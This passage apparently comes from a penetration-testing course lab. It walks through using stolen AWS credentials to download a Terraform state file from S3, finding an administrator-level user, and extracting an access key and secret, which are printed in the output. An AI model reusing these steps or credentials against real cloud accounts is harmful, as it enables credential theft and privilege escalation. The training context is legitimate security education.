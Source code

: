 ```
kali@kali:~$ aws --profile=stolen-s3 s3 cp s3://tf-state-9b58rezp3vvkf90f/terraform.tfstate ./
download: s3://tf-state-9b58rezp3vvkf90f/terraform.tfstate to ./terraform.tfstate
```

> Listing 57 - Copying Terraform State File To Our Local Kali Instance

We were able to successfully download the file! Let's open the file and begin reviewing it. We'll review the file in sections.

```
kali@kali:~$ cat -n terraform.tfstate
001  {
...
007      "user_list": {
008        "value": [
009          {
010            "email": "Goran.Bregovic@offseclab.io",
011            "name": "Goran.B",
012            "phone": "+1 555-123-4567",
013            "policy": "arn:aws:iam::aws:policy/AdministratorAccess"
014          },
015          {
016            "email": "Zeljko.Bebek@offseclab.io",
017            "name": "Zeljko.B",
018            "phone": "+1 555-123-4568",
019            "policy": "arn:aws:iam::aws:policy/ReadOnlyAccess"
020          },
021          {
022            "email": "Alen.Islamovic@offseclab.io",
023            "name": "Alen.I",
024            "phone": "+1 555-123-4569",
025            "policy": "arn:aws:iam::aws:policy/ReadOnlyAccess"
026          }
027        ],
...
041    },
```

> Listing 58 - Reviewing State File - Users

The first part of the Terraform state file is where we find the list of users and their associated policies. We find three users, two of which have _ReadOnlyAccess_, but the first one, _Goran.B_, has _AdministratorAccess_. Hopefully, we can discover this user's AWS ID and Key in this state file. Let's continue reviewing the file.

```
042    "resources": [
043      {
...
049          {
050            "index_key": "Alen.I",
051            "schema_version": 0,
052            "attributes": {
...
056              "id": "AKIAUBHUBEGIKIZJ7OEI",
...
059              "secret": "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",
...
063            },
...
069          },
070          {
071            "index_key": "Goran.B",
072            "schema_version": 0,
073            "attributes": {
...
```
